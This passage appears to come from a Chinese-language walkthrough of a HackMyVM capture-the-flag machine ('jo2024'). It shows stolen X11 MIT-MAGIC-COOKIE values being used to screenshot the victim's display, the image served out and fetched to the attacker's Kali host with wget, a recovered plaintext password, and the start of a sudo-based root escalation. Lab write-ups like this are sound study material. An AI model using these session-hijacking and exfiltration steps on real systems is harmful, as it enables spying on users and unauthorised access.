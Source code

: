 ```bash
000000d0: 6685 0100 0006 6465 6269 616e 0001 3000  f.....debian..0.
000000e0: 124d 4954 2d4d 4147 4943 2d43 4f4f 4b49  .MIT-MAGIC-COOKI
000000f0: 452d 3100 10f9 9d8e bcf0 f56d 8f00 036c  E-1........m...l
00000100: 4aac edb2 0c01 0000 0a6a 6f32 3032 342e  J........jo2024.
00000110: 686d 7600 0130 0012 4d49 542d 4d41 4749  hmv..0..MIT-MAGI
00000120: 432d 434f 4f4b 4945 2d31 0010 a4d5 7190  C-COOKIE-1....q.
00000130: b1f2 25fe f8e4 28c8 959e b4f2            ..%...(.....
(remote) www-data@jo2024.hmv:/tmp$ xauth -f log     
Using authority file log
xauth> list
debian/unix:11  MIT-MAGIC-COOKIE-1  e23e37c80ab245584a5bf010c6d36685
debian/unix:0  MIT-MAGIC-COOKIE-1  f99d8ebcf0f56d8f00036c4aacedb20c
jo2024.hmv/unix:0  MIT-MAGIC-COOKIE-1  a4d57190b1f225fef8e428c8959eb4f2
debian/unix:11  MIT-MAGIC-COOKIE-1  e23e37c80ab245584a5bf010c6d36685
debian/unix:0  MIT-MAGIC-COOKIE-1  f99d8ebcf0f56d8f00036c4aacedb20c
jo2024.hmv/unix:0  MIT-MAGIC-COOKIE-1  a4d57190b1f225fef8e428c8959eb4f2
xauth> 
(remote) www-data@jo2024.hmv:/tmp$ export XAUTHORITY=/tmp/log            
(remote) www-data@jo2024.hmv:/tmp$ xwd -root -screen -silent -display :0 > screenshot.xwd
(remote) www-data@jo2024.hmv:/tmp$ python3 -m http.server 8888
# kali
┌──(kali💀kali)-[~/temp/JO2024]
└─$ wget http://192.168.10.101:8888/screenshot.xwd                                                                                                                                     
┌──(kali💀kali)-[~/temp/JO2024]
└─$ convert screenshot.xwd screenshot.png
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202408212019484.png" alt="image-20240821190914307" style="zoom:50%;" />

抽象。。。。。

```text
vanity:xd0oITR93KIQDbiD
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202408212019485.png" alt="image-20240821191213253" style="zoom: 50%;" />

### 提权root

```bash
vanity@jo2024:~$ sudo -l
Matching Defaults entries for vanity on jo2024:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User vanity may run the following commands on jo2024:
    (ALL : ALL) NOPASSWD: /usr/local/bin/php-server.sh
vanity@jo2024:~$ cat /usr/local/bin/php-server.sh
#!/bin/bash

/usr/bin/php -t /opt -S 0.0.0.0:8000
vanity@jo2024:~$ sudo /usr/local/bin/php-server.sh&
[1] 449123
vanity@jo2024:~$ ss -tnlup
Netid              State               Recv-Q              Send-Q                           Local Address:Port                           Peer Address:Port              Process              
udp                UNCONN              0                   0                                 127.0.0.1%lo:53                                  0.0.0.0:*                                      
udp                UNCONN              0                   0                                     [::1]%lo:53                                     [::]:*                                      
tcp                LISTEN              0                   128                                    0.0.0.0:22                                  0.0.0.0:*                                      
```